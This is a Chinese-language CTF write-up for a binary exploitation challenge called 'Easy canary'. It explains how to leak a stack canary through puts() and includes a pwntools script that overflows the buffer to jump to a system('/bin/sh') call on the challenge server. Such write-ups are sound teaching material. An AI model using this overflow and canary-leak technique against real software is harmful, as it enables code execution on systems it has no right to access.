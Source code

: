 # PWN WP  Easy canary 

由题目可知这是一道Canary防护的题。

先IDA分析一下

```
.text:08048650                 push    offset command  ; "/bin/sh"
.text:08048655                 call    _system
```

看到`root()`函数有这个可以用来执行。

然后输入输出在`fun()`里面

```c
unsigned int fun()
{
  char buf; // [esp+8h] [ebp-20h]
  unsigned int v2; // [esp+1Ch] [ebp-Ch]

  v2 = __readgsdword(0x14u);
  puts("The is a baby rop ! Hava fun!");
  puts("So, do u have anything to tell me?");
  read(0, &buf, 0x32u);
  puts("Here is your gift: ");
  puts(&buf);
  puts("Keep try!");
  read(0, &buf, 0x64u);
  return __readgsdword(0x14u) ^ v2;
}
```

可以看到Canary地址是`ebp - 0xC`，然后buf地址是`ebp - 0x20`，所以buf填充20个字符就到Canary了，再多填充一个，覆盖掉Canary尾部的`0x00`，`puts(&buf)`就会泄露出Canary了。然后就是常规操作了，exploit如下:

```python
from pwn import *
from time import sleep

p = remote('pwnto.fun', 10001)
shelladdr = 0x8048650

payload1 = 'A' * 20 + '\x90'
p.recv()
p.send(payload1)
#测试发现本地能跑，远程报错，仔细看应该是服务器返回数据比较慢，recv()过早就得不到Canary了
sleep(1)
rcv = p.recv()

x90 = rcv.find('\x90')
canary = u32(rcv[x90: x90 + 4]) - 0x90

payload2 = 'A' * 20 + p32(canary) + 'A' * 12 + p32(shelladdr)
p.send(payload2)

p.interactive()
```

拿到flag：

`Syc{Canary_fun_and_S0_good}`